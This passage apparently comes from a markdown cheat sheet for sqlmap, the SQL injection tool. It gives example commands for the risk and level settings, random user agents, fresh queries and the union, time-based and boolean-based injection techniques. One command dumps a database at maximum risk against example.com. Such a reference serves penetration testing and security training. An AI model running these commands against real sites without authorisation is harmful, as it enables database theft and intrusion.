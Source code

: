 <br />

### Risk/Level

We can specify the injection risk and level.  

- **risk**

    Risk of tests to perform. Default is **1**. Max is **3**.

- **level**

    Level of tests to perform. Default is **1**. Max is **5**.

```sh
sqlmap -u "https://example.com/?q=test" --dump --dbms mysql --risk 3 --level 5
```

<br />

### Random Agent

```sh
sqlmap -u "https://example.com/?q=test" --random-agent
```

<br />

### Fresh Queries

If the database is modified, we can refresh the states by adding **`--fresh-queries`**.

```sh
# --fresh-queries: new data in tables
sqlmap -u "https://example.com/?q=test" --fresh-queries
```

<br />

### Injection Techniques

We can specify the injection technique to test by adding **`--technique`**.

```sh
# Union attack (U)
sqlmap -u "https://example.com/?q=test" --technique U
# --delay 2: Time delay
sqlmap -u "https://example.com/?q=test" --technique U --delay 2

# Time-based Blind SQLi (T)
sqlmap -u "https://example.com/?q=test" --technique T

# Boolean-based blind injection (B)
sqlmap -u "https://example.com/?q=test" --technique B
```

<br />

### Sleep
